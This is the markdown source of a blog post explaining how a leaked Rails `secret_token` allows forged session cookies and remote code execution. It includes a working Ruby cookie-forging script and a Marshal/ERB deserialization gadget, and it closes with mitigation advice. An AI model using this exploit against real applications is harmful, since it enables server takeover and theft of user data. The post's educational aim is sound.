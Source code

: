 ```yaml
---
layout: post
title: How to hack a Rails app using its secret_token
---
```


Create a new Rails app, open `/config/initializers/secret_token.rb` and you'll see your app's `secret_token`. As I will show you, if anyone who wishes you harm gets hold of this string then they can execute arbitrary code on your server. Troublingly, the Rails default includes it in your version control, and if you don't remove it then anyone who gets or is given access to your codebase has complete, complete control over your server. Maybe you added them to your private repo for a code review, or unthinkingly put a side-project production app into a public repo, or someone sneaked a look at your Sublime while you were out. It doesn't matter - if they have this key then they own you.

### Why your `secret_token` is important - session cookies

Your `secret_token` is used for verifying the integrity of your app's session cookies. A session cookie will look something like:

{% highlight ruby %}
    _MyApp_session=BAh7B0kiD3Nlc3Npb25faWQGOgZFRkkiJTcyZTAwMmRjZTg2NTBiZmI0M2UwZmY0MjEyNGJjODBhBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMWhmYTBKSGQwYVQxRlhnTFZWK2FEZEVhbEtLbDBMSitoVEo5YU4zR2dxM3M9BjsARg%3D%3D--dc40a55cd52fe32bb3b84ae0608956dfb5824689
{% endhighlight %}

The cookie value (the part after the `=`) is split into 2 parts, separated by `--`. The first part is a Base64 encoded serialization of the hash that Rails will use as the `session` variable in controllers. The second part is a signature created using `secret_token`, that Rails uses to check that the cookie it has been passed is legit. This prevents users from forging nefarious cookies and from tricking Rails into loading data it doesn't want to load. Unless of course they have your `secret_token` and can also forge the signature...

### The serialized session hash

The first part of the cookie is a Marshal dump of the session hash, encoded in Base64. Marshal is a Ruby object serialization format that is used here to allow Rails to persist objects between requests made in the same session. In many cases it will only store the `session_id`, `_csrf_token` and Warden authentication data, but calling `session["foo"] = "bar"` in your controllers allows you to store pretty much anything you want. For my cookie above, unescaping the URL encoding and then Base64 decoding gives:

{% highlight ruby %}
    "\x04\b{\aI\"\x0Fsession_id\x06:\x06EFI\"%72e002dce8650bfb43e0ff42124bc80a\x06;\x00TI\"\x10_csrf_token\x06;\x00FI\"1hfa0JHd0aT1FXgLVV+aDdEalKKl0LJ+hTJ9aN3Ggq3s=\x06;\x00F"
{% endhighlight %}

which if you squint hard enough is indeed starting to look kind of like a hash. This cookie is passed up to the server with each request, Rails calls `Marshal.load` on it, and merrily populates `session` with whatever serialized objects it is passed. Object persistance between requests. Brilliant.

### The signature

But wait, the cookie obviously lives on the client side, which means that a user can set it to be anything they want. Which means that the user can pass in whatever serialized object they want to our app. And by the time we reinflate it and realise that they have passed us a small thermonuclear device, it will be too late and the attacker will be able to execute arbitrary code on our server.

That's where our `secret_token` and the second part of the cookie value (the part after the `--`) come in. Whenever Rails gets a session cookie, it checks that it hasn't been tampered with by verifying that the HMAC digest of the first part of the cookie with its `secret_token` matches the second, signature part. This means in order to craft a nefarious cookie an attacker would need to know the app's `secret_token`. Unfortunately, just being called `secret_token` doesn't make it secret, and, as already discussed, if you aren't careful then it can easily end up somewhere you don't want it to.

### The attack - how to bake a poisonous cookie

If you know an app's `secret_token` and want to forge a valid cookie, you simply need to reverse the above process:

{% highlight ruby %}
    require "net/http"
    require "uri"

    secret_token = "stolen-from-github-or-somewhere"

    # Construct your evil hash
    my_evil_session_hash = {
        "ive_made_a_huge_mistake" => true
    }

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump)

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_MyApp_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://myapp.com/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
      	http.request(req)
    end
{% endhighlight %}

This request will load `my_evil_session_hash` into `session`, which is purely on principal not good. But loading arbitrary strings and integers is not about to melt any servers. How can you choose the contents of your hash so as to actually do some damage? Some obsure objects buried deep inside Rails are happy to oblige:

{% highlight ruby %}   
    # Thanks to the folks at CodeClimate for pointing this out

    # The code in the ERB will run when the session is accessed
    erb = ERB.allocate
    erb.instance_variable_set :@src, "User.steal_all_passwords; User.email_spam_to_all_users;"
    
    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
    my_evil_session_hash = {
        "proxy_of_death" => Marshal.dump(proxy)
    }
    # ... continue as above
{% endhighlight %}

And presto.

### Knowing is half the battle

ALL of this trouble can be trivially avoided by taking `secret_token` out of your version control. Put it into an environment variable (<a href="https://github.com/bkeepers/dotenv">dotenv</a> is handy for local, it's easy on <a href="https://devcenter.heroku.com/articles/config-vars">Heroku</a> too) and you can sleep (a bit more) soundly at night. If you suspect that someone you wouldn't want to meet on a dark night knows your `secret_token` then you can simply change it. All your existing cookies will be invalidated, but nothing else bad will happen. Of course, you still don't want anyone you don't trust to get any kind of access to your codebase at all. But you can at least make life difficult for them even if they do.

### Thanks to

<a href="http://railssecurity.com" target="_blank">Rails Security by Code Climate</a>
and
<a href="http://techbrahmana.blogspot.co.uk/2012/03/rails-cookie-handling-serialization-and.html" target="_blank">TechBrahmana</a>


